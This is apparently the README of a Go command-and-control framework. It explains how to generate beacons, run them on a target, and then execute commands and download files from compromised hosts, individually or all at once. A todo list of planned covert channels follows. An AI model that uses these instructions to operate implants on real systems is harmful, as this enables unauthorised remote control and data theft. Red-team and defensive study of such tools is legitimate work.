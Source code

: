 ![c2 image](https://i.imgur.com/x6sQ3Dd.png)

Usage:

After cloning the repo run server.go
Run 'create <LHOST> 8001' to generate a beacon. This will be placed in the out directory.
Execute the beacon on the target.

Inside the command server you can reference beacons using either their list id or their unique id.
For example if the output of 'list' is '[0] LuTNluGL@10.255.52.1 last seen 2021-05-23 21:07:17.208101927 -0400 EDT m=+179.667762638', you could refer to this beacon by LuTNluGL or 0.

Execute commands or download files from beacons:
exec <beacon> cmd
download <beacon> file

However if you select a beacon with the use command you can exempt the beacon identification.
Beacon identification can be replaced with * to schedule the operation for all live beacons.

Downloaded files will be saved to downloads/<BEACON IP>/<BEACON ID>/

Todo list:
- Add communication over DNS, HTTPS, ICMP etc
- Upload
- Download: PARTIALLY FINISHED
- Proxychaining beacons OR P2P beacons
- Automatic proxychains configuration depending on beacon route
- Add handling of multiple clients with random unique IDs: FINISHED
- RSA encrypt data instead of base 64
- Web interface
